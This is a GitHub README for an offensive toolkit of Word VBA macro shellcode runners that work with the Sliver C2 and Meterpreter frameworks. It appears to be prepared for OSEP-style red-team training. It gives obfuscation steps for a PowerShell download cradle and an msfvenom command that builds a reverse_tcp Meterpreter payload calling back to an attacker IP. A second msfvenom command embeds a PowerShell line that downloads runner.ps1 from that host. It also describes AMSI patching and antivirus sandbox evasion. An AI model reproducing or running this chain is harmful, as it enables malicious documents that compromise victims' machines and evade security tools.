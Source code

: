 # Macro Shellcode Runners

## References
https://github.com/hackinaggie/OSEP-Tools-v2/tree/main/Macros
Most of the the tools are from hackinaggie's OSEP-Tools-v2 and customized in some ways to work with Sliver C2
Another shout out to Cyb3rDudu for MacroSliver https://github.com/Cyb3rDudu/MacroSliver
This allows the use of https sliver profile that leverages the process hollowing shellcode runner. 

# Sliver Macro
The following VBA Macros contains a powershell cradle intended for runner.ps1 within ToolLibrary/sliver-setup

## References
Macro Obfuscator: ToolLibrary/Macro/sliver-vbaMacroObfuscator.ps1
VBS Macro: ToolLibrary/Macro/sliver-vbaWordPsCradle.vbs

## Usage
```bash
# Use the vbaMacroObfuscator to obfuscate the powershell code eunner, the minmgmts, win32_process method value and docm file name. 
┌──(kali㉿kali)-[/opt/ToolLibrary/Macro]
└─$ pwsh ./sliver-vbaMacroObfuscator.ps1                                                                    

# Update output of Apples > sliver-vbaWordPsCradle.vbs on line 48

# Update the output of Win32 WMI Provider (winmgmts:) > sliver-vbaWordPsCradle.vbs on line 51 GetObject(Yellow("131117122121115121128127070"))

# Update the output of Win32_Process.Create() Method value > sliver-vbaWordPsCradle.vbs on line 51 Get(Yellow("099117122063062107092126123111113127127"))

# Update Name of docm > sliver-vbaWordPsCradle.vbs on line 44
```

## Sliver (HTTPS) Macro
Reference - https://github.com/Cyb3rDudu/MacroSliver


## WordMacro.vbs
Reference: https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunnerBasic.vbs

This is just a basic version of WordMacroRunner.vbs without AMSI Bypass or IP Check.

Contains a meterpreter stageless payload that has obfuscation requested through msfvenom
```bash
┌──(kali㉿kali)-[/]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.227 LPORT=8080 EXITFUNC=thread --encrypt xor --encrypt-key a -f vbapplication 
```

## WordMacro+AMSI.vbs
Reference: https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunner.vbs

This is a baseline runner that loads the shellcode into WINWORD.exe and executes it. Has capabilities to detect AMSI and patch it if found (for both 32-bit and 64 bit) as well as contains shellcode for both 32-bit and 64 bit Word so it can execute after detecting architecture.

Uses a sleep call to determine if being simulated by AV. Also has functionality to make sure the target is in the 192.168.0.0/16 IP range, except you have to uncomment it.

The shellcode is not obfuscated at all, that is left up to the reader. Much more can be done to obfuscate the entire script but if I did that here it would be hard to even understand the script, which would defeat its educational purpose.

```bash
┌──(kali㉿kali)-[/]
└─$ msfvenom -p windows/x64/exec -f vbapplication CMD="powershell.exe -c (new-object net.webclient).DownloadString('http://192.168.45.227/runner.ps1')" EXITFUNC=thread
```


